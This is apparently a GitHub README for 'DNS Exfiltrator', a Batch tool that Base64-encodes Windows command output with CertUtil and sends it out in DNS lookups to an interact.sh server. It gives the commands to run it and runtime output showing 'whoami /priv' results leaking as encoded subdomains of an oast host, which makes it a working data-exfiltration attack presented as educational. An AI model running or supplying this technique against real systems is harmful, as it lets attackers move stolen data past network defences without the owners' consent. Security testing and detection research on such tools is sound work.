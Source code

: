 # DNS Exfiltrator

Exfiltrate data with DNS queries. Based on CertUtil and NSLookup.

Command output will be encoded in Base64 with CertUtil and exfiltrated in chunks up to 63 characters per query with NSLookup.

Tested on Windows 10 Enterprise OS (64-bit).

Made for educational purposes. I hope it will help!

Future plans:

* make Python script to parse `interact.sh` results,
* make a one-liner out of the whole Batch script,
* make Burp Suite extension that will use Burp Collaborator server.

## How to Run

Download, unpack, give necessary permissions, and run the latest [interact.sh](https://github.com/projectdiscovery/interactsh/releases) client.

```fundamental
chmod +x interactsh-client

./interactsh-client -dns-only -json -o interactsh.json
```

Open the Command Prompt from [\\src\\](https://github.com/ivan-sincek/dns-exfiltrator/tree/main/src) and run the following command:

```fundamental
dns_exfiltrator.bat d2hvYW1p xyz.oast.online
```

Where `d2hvYW1p` is your Batch one-liner encoded in Base64 - `whoami` in this example; and `xyz.oast.online` is your `interact.sh` server.

## Runtime

```fundamental
C:\Users\W10\Desktop>dns_exfiltrator.bat d2hvYW1pIC9wcml2 ch3ypah2vtc0000ca69gget9mfcyyyyyb.oast.fun
################################################################
#                                                              #
#                     DNS Exfiltrator v1.2                     #
#                                by Ivan Sincek                #
#                                                              #
# Exfiltrate data with DNS queries.                            #
# GitHub repository at github.com/ivan-sincek/dns-exfiltrator. #
#                                                              #
################################################################
Server:  UnKnown
Address:  172.20.10.1

Non-authoritative answer:
Name:    UFJJVklMRUdFUyBJTkZPUk1BVElPTiANCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0.ch3ypah2vtc0000ca69gget9mfcyyyyyb.oast.fun
Address:  206.189.156.69

Server:  UnKnown
Address:  172.20.10.1

Non-authoritative answer:
Name:    gDQpQcml2aWxlZ2UgTmFtZSAgICAgICAgICAgICAgICBEZXNjcmlwdGlvbiAgIC.ch3ypah2vtc0000ca69gget9mfcyyyyyb.oast.fun
Address:  206.189.156.69

Server:  UnKnown
Address:  172.20.10.1

Non-authoritative answer:
Name:    AgICAgICAgICAgICAgICAgICAgICAgU3RhdGUgICAgDQo9PT09PT09PT09PT09P.ch3ypah2vtc0000ca69gget9mfcyyyyyb.oast.fun
Address:  206.189.156.69

...
```
